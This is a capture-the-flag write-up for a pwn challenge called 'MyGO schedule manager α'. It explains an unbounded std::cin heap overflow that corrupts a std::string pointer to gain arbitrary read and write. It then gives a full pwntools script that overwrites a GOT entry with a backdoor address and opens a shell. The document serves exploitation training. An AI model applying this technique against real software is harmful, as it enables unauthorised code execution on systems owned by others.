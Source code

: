 # MyGO schedule manager α
> Author: 堇姬Naup

## analyze
`std::cin` does not limit the input size, and the input is placed into a buffer which have 0x16 size.
So this part have a overflow, and it is on heap chunk.

Let me look this chunk.


We know std::string struct like this.
| offset | description |
|--------|-------------|
| 0x0    | data's pointer |
| 0x8    | vector size |
| 0x10   | vector capacity |
| 0x18   | unused padding or alignment space |

So if we can change data's pointer to anywhere, we will get arbitary write or read.
Use AAR leaklibc.
And use aaw overwrite libc's got(ABS GOT) to backdoor function.

We will jump to win function, and get shell.

## script
```py
from pwn import *
from libs.NAUP_pwn_lib import *
import time
from libs.NAUP_filestructure_lib import *
from libs.NAUP_fmt_lib import *

### This is a CTF pwn templates make by Naup

def s(payload): return r.send(payload)
def sl(payload): return r.sendline(payload)
def sla(after, payload): return r.sendlineafter(after, payload)
def sa(after, payload): return r.sendafter(after, payload)
def rc(num): return r.recv(num)
def rcl(): return r.recvline()
def rcls(num): return r.recvlines(num)
def rcu(payload): return r.recvuntil(payload)
def ita(): return r.interactive()
def cl(): return r.close()
def tsl(): return time.sleep(0.2)

x64_env()

REMOTE_LOCAL=input("local?(y/n):")

if REMOTE_LOCAL=="y":
    r=process('./chal')
    debug_init()
    
else:                                           
    REMOTE_INFO=split_nc("nc naup.com 2000")

    REMOTE_IP=REMOTE_INFO[0]
    REMOTE_PORT=int(REMOTE_INFO[1])

    r=remote(REMOTE_IP,REMOTE_PORT)

### attach
if input('attach?(y/n)') == 'y':
    p(r)

### heap IO

def login():
    sla(b"Username > ", b"MyGO!!!!!")
    sla(b"Password > ", b"TomorinIsCute")

def create(title, ctx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"1")
    sla(b"MyGO @ sched title > \n", title)
    sla(b"MyGO @ sched content > \n", ctx)

def edit_title(title):
    sla(b"< MyGO @ ScheduleManager $ > ", b"2")
    sla(b"MyGO @ sched title > \n", title)

def edit_content(ctx):
    sla(b"< MyGO @ ScheduleManager $ > ", b"3")
    sla(b"MyGO @ sched content > \n", ctx)

def show():
    sla(b"< MyGO @ ScheduleManager $ > ", b"4")


### exploit

login()
got = 0x404058
backdoor = 0x40142c

create(b"MyGO", b'MyGO' * 8)
edit_title(b"MyGO" * 6 + p64(got))
edit_content(p64(backdoor))

show()

### interactive
ita()
```
